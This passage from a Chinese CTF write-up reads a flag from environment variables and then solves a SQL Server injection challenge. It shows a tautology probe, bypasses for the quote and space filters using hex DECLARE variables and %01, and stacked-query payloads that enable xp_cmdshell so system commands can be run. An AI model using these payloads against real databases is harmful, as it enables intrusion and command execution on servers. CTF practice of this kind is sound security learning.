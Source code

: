 console运行系统命令 whereis 查询flag，呃发现是之前的假flag，尝试读取python的环境变量， os.environ['flag']，啥也没有

环境变量命应当大写，尝试 os.environ['FLAG']，得到flag

---

## ezsql <a name="ezsql"></a>

sql注入他又来啦

~~sqlmap确实是一个应当掌握的技能，以后会好好学~~

出题人很贴心地把语句在前端回显了，我们尝试经典

```
-1' or 1=1#
```

通过回显我们发现'和空格消失了，我们进行fuzz测试

发现如下符号被过滤了

```
<>'"  //还有一些，我就记得这些了可以自己写脚本或者手动测试
```

通过写一些乱七八糟的内容提交上去得知数据库类型和版本

```
ERROR-MESSAGE: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax 
```

通过题干我们知道要读取/flag文件，尝试任意文件读取或者getshell

#### 一些绕过小知识

```
通过Declare和十六进制0x 定义一个变量即可绕过引号过滤、空格过滤、字符过滤

\x01 可以代替空格（直接手打就是%01），通过编写脚本处理你的语句并生成可以提高效率
```


亲爱的gpt告诉我，可以通过sql语句执行系统命令

```
show advanced options
2;DECLARE @c varchar(255) SET @c=0x73686f7720616476616e636564206f7074696f6e73 
EXEC sp_configure @c, 1;
GO;
RECONFIGURE;
GO;--


external scripts enabled 65787465726e616c207363726970747320656e61626c6564
clr enabled 636c7220656e61626c6564
Ad Hoc Distributed Queries debian 416420486f632044697374726962757465642051756572696573
xp_cmdshell Windows Server 78705f636d647368656c6c
2;DECLARE @c varchar(255) SET @c=0x78705f636d647368656c6c 
EXEC sp_configure @c, 1;
GO;
RECONFIGURE;
GO;
--
```
